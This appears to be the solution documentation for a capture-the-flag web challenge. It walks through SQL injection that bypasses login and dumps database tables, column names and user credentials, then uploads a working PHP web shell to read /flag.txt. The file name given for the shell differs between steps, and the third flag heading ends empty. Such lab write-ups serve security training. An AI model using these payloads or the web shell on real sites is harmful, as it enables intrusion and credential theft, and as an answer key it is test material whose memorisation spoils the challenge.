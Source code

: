 # CTF Flags Documentation

## Flag 1: Admin Password Discovery

**Name**: Database Infiltration Flag
**Location**: Base64-encoded admin password in the users table
**Flag Format**: CTF{<admin-password-decoded>}

1. Initial SQL Injection Bypass
    1. Navigate to the login page
    2. Use SQL injection to bypass authentication:
        1. Username: ' OR 1=1 --
        2. Password: anything
    3. This logs you in as the first user in the database


2. Access Profile Page

    1. Navigate to index.php?page=profile
    2. Locate the "Share Your Experience" review section


3. Exploit SQL Injection in Review Update

    1. Use the review textarea to perform SQL injection via the updateReview() function
    2. First, discover database structure:
        ```sql
        sql', review_text=(SELECT GROUP_CONCAT(table_name SEPARATOR ', ') FROM information_schema.tables WHERE table_schema=database()) WHERE '1'='1' -- 
        ```


4. Extract User Table Columns

```sql
sql', review_text=(SELECT GROUP_CONCAT(column_name SEPARATOR ', ') FROM information_schema.columns WHERE table_name='users') WHERE '
1'='
1' --
```

5. Extract User Data

```sql
sql', review_text=(SELECT GROUP_CONCAT(CONCAT(username,':',password,':',role) SEPARATOR ', ') FROM users) WHERE '
1'='
1' --
```

6. Decode Admin Password
    1. Locate the admin user entry in the extracted data
    2. The password is stored as base64-encoded
    3. Decode the base64 string to reveal the flag

## Flag 2: File System Access

**Name**: Server File System Flag
**Location**: /flag.txt file on the server
**Flag** Format: CTF{<content-of-flag-txt>}

1. Obtain Admin Credentials
    1. Complete Flag 1 exploit to get admin username and decoded password
2. Login as Administrator
    1. Use the admin credentials to log in properly as admin user
3. Access File Upload Functionality
    1. As an admin user, the profile page shows file upload capability
    2. The upload function in handleFileUpload() has no file type restrictions for admins
4. Create PHP Web Shell
    1. Create a PHP file with web shell functionality:
   ```html
   <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="text" name="command" autofocus id="command" size="50">
    <input type="submit" value="Execute">
    </form>
    <pre>
    <?php
        if(isset($_GET['command'])) 
        {
            system($_GET['command'] . ' 2>&1'); 
        }
    ?>
    </pre>
    </body>
    </html>
    ```
   2. Save as shell.png.php
5. Upload Web Shell
   1. Use the profile image upload feature to upload shell.php
   2. The file will be stored in the /uploads/ directory
6. Access Web Shell
   1. Navigate to /uploads/shell.php
   2. Use the command interface to explore the file system
7. Locate and Read Flag
   1. Execute ls or dir to list files in the current directory
   2. Look for flag.txt

## Flag 3: Buffer Overflow
